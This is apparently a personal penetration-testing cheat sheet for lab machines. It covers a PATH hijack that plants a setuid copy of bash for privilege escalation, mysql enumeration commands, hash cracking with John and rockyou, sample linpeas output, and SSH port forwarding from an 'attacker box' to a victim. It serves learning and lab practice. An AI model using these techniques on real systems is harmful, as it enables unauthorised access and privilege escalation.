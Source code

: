 ```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```







# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```

Single Page Application (SPA)" that was made using Vue Js.






# Linpeas.sh Analysis !! 
```bash
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1837/node /u	sr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -   
```


this shows the running services (maybe another web server ^^)

```
/etc/apache2/sites-enabled 
/etc/nginx/sites-enabled
```

# SSH Tunneling / port forwarding

https://linuxhint.com/ssh-port-forwarding-linux/

```bash
# local port forwarding : run on attacker box		
	
$ ssh -i User -L 8888:127.0.0.1:8000 User@10.10.11.105	==> after running it you will connect to the machine as a User ^^ 
$ id 
    uid=1001(User) gid=1001(User) groups=1001(User)

# go to the browser :: http://127.0.0.1:8888/   ===> forwarded to 127.0.0.1:8000 on the victim machine 

# means locally (on the attacker machine) bind my localhost with 8888 port to the service running on 127.0.0.1:8000 on this {ssh server} User@10.10.11.105
```

==> in /etc/sshd_config  ==> GateWayPorts yes ==> default is no   ////    must be yes

```bash
# remote port forwarding : run on victim box 		

$ ssh -R 8888:127.0.0.1:8000 Attacker@10.10.x.x

# means expose the local service (on the victime machine) running on port 8000 to port 8888 on this ssh server Attacker@10.10.x.x
```